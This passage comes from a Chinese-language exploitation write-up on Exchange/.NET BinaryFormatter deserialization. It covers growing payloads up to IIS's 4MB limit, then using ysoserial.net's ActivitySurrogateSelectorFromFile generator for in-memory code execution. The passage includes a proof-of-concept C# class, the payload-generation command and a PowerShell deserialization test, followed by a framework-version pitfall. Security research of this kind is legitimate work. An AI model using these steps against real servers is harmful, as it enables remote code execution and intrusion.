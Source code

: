 ### <a class="reference-link" name="0x44%20%E9%AB%98%E7%BA%A7%E6%93%8D%E4%BD%9C%E4%B8%8Eysoserial.net%E7%BC%BA%E9%99%B7"></a>0x44 高级操作与ysoserial.net缺陷

通过第一阶段创建的白名单文件，可以将不足`2048字节`的payload拓展到IIS默认的`4M`上限，这样我们就能通过更大的payload进行高级操作。

所谓高级操作，就是以`不落地`的方式在当前进程`内存`中执行`任何操作`，包括但不限于执行命令并回显、读写文件、加载ShellCode、后渗透等等。在.net无限制反序列化的环境前提下，可以通过`ObjectSerializedRef`反序列化`LinqIterator`对象在内存中加载.net程序集并实例化，最终实现任意代码执行。这个方式在yssoserial.net中以`ActivitySurrogateSelectorGenerator`和`ActivitySurrogateSelectorFromFileGenerator`进行实现。

`ActivitySurrogateSelectorFromFileGenerator`提供一个将C#源码编译为程序集并在远程加载的功能，首先创建以下测试代码：

```
class E
`{`
  public E()
  `{`
    try
    `{`
      System.Diagnostics.Process.Start("notepad");
      System.Web.HttpContext.Current.Response.Write("exploit!");
      System.Web.HttpContext.Current.Response.End();
    `}`
    catch`{``}`
  `}`
`}`
```

之后执行以下命令生成payload。这里注意，为了保证测试效果防止提前踩坑，请`暂时在目标`Exchange服务器上执行：

```
ysoserial -g ActivitySurrogateSelectorFromFile -f BinaryFormatter -c exploitclass.cs;System.Web.dll;System.dll &gt;o.dat
```

修改之前的反序列化测试程序，编译执行访问，不出意外的话可以得到以下结果：

[![](https://p0.ssl.qhimg.com/t010cd211296c51b5d3.png)](https://p0.ssl.qhimg.com/t010cd211296c51b5d3.png)

成功创建子进程notepad，回显输出exploit!，表明上述代码已经在远程执行。接下来对代码进行自定义修改即可进行任何操作，例如命令回显、ShellCode等等。

看似一切完美？其实并不。现在可以打开`C:WindowsMicrosoft.NETFramework64v4.0.30319`目录，查看`System.Core.dll`的文件版本。例如当前测试环境为`4.7.3362.0`，表示fx版本为`4.7.x`。

下面来模拟真实环境远程生成payload。真实环境下不可能知道对方的fx版本（返回头中的版本号永远都是4.0.30319），所以常规做法是通过ysoserial.net直接生成一个payload并发送。

例如通过同样的方式，在文件版本`4.6.1098.0`（对应fx版本`4.6.x`）的环境下能够成功生成payload，但继续编译执行访问，不会得到任何结果。

如果将这个payload复制到Exchange服务器并使用以下Powershell脚本进行测试，会得到一个`TypeLoadException`：

```
$fmt=new-object System.Runtime.Serialization.Formatters.Binary.BinaryFormatter;
$mft.Deserialize((new-object System.IO.FileStream("o.dat",'Open','Read')));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a8aeddd14cfea806.png)
